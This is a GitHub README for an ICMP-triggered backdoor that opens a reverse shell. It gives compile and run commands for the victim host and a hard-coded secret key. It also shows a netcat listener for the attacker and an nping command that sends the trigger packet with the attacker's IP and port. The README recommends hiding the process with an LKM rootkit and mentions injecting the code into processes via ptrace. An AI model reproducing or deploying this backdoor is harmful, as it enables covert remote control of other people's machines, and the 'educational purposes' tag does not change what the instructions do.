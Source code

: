 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ sudo ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	        backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```
